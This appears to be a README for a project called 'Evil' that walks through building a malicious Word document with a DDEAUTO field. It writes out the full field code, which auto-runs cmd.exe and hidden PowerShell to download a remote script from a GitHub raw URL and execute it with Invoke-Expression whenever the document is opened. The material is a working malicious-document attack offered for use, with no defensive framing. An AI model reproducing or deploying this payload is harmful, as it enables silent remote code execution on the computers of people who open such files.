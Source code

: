 # Evil
MS Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error “!Unexpected End of Formula”, right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\Windows\\System32\\cmd.exe "/c powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Doc0160/Evil/master/evil.ps1'); Invoke-Expression $e"}

The DDEAUTO keyword is to inform MSWord that this is a DDE field, and will auto execute when the document is opened, the second part is the full path of the executable to execute, and the last part between quotes are the arguments to pass to this executable.
